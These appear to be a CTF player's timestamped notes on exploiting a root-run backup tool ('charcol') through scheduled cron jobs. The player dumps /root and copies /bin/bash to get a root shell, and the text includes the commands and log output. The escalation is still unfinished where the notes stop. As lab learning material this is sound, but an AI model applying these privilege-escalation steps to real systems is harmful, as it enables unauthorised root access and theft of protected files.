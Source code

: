 [15:03:58] I think the file was added by cron , i deleted because of timestamp. But there is no file now too

[15:05:23] Lets add cron job this time with log file
	- auto add --schedule "* * * * *" --command "charcol backup -i /root/ -o /tmp/r3b00t/backup --no-timestamp" --name "rootDump" --log-output /tmp/r3b00t/backup.log

[15:08:03] The log shows it is cleaning the archive file too . Thats why we are not seeing it 
	
	[2025-10-03 09:37:01] [INFO] No encryption password provided and application is in 'no password' mode. Creating unencrypted 	archive.
	[2025-10-03 09:37:01] [INFO] Output file will be: /tmp/r3b00t/backup.zip
	[2025-10-03 09:37:01] [INFO] Creating temporary archive: /tmp/r3b00t/backup.zip of type zip...
	[2025-10-03 09:37:01] [INFO] Temporary archive created successfully at /tmp/r3b00t/backup.zip
	[2025-10-03 09:37:01] [INFO] Set permissions for temporary archive file to 0o664
	[2025-10-03 09:37:01] [INFO] Set ownership for temporary archive file to root:root
	[2025-10-03 09:37:01] [INFO] Moving unencrypted archive to final destination: /tmp/r3b00t/backup.zip...
	[2025-10-03 09:37:01] [INFO] Unencrypted backup saved to: /tmp/r3b00t/backup.zip
	[2025-10-03 09:37:01] [INFO] Set permissions for final output file to 0o664
	[2025-10-03 09:37:01] [INFO] Set ownership for final output file to root:root
	[2025-10-03 09:37:01] [INFO] Cleaned up temporary archive file: /tmp/r3b00t/backup.zip


[15:08:46] Lets see about the cleaning archive file ,
[15:09:46] There is no such option for archive cleanup . Lets add password now this time and see and remove the timestamp arg too
	- auto add --schedule "* * * * *" --command "charcol backup -i /root/ -o /tmp/r3b00t/backup -p haha" --name "rootDump" --log-output /tmp/r3b00t/backup.log

[15:10:54] Lets see what happens this time. 
[15:11:11] Okay there is a backup file now . So we should add password . Huhh
[15:11:27] Lets dump it locally and extract . 
[15:12:51] Nope it shows empty . Lets extract it from the charcol application itself. 
[15:17:43] Nope that shows empty

[15:17:48] Lets edit the cron job 
	- auto add --schedule "* * * * *" --command "charcol backup -i /root -o /tmp/r3b00t/backup -p haha" --name "rootDump" --log-output /tmp/r3b00t/backup.log

[15:20:26]  Nope that didnt work  .Lets add suid C program , backup and then extract or copy /bin/bash and backup and then decrypt it and see
	- auto add --schedule "* * * * *" --command "charcol backup -i /bin/bash -o /tmp/r3b00t/backup -p haha --no-timestamp" --name "binBashBkp"  --log-output /tmp/r3b00t/backup.log

[15:30:24] Now working . Lets try not to add -o and 
	- auto add --schedule "* * * * *" --command "charcol backup -i /bin/bash -p haha --no-timestamp" --name "binBashBkp"  --log-output /tmp/r3b00t/backup.log

[15:37:53] That didnt work . Maybe we need to copy binBash file and backup that one I guess
	- auto add --schedule "* * * * *" --command "charcol backup -i /tmp/r3b00t/bash -o /tmp/r3b00t/rshell -p haha --no-timestamp" --name "binBashBkp"  --log-output /tmp/r3b00t/backup.log

[15:40:15] Added this one , lets see what happens . 
[15:41:52] Yeah now I can see bash file when listing . Lets extract it
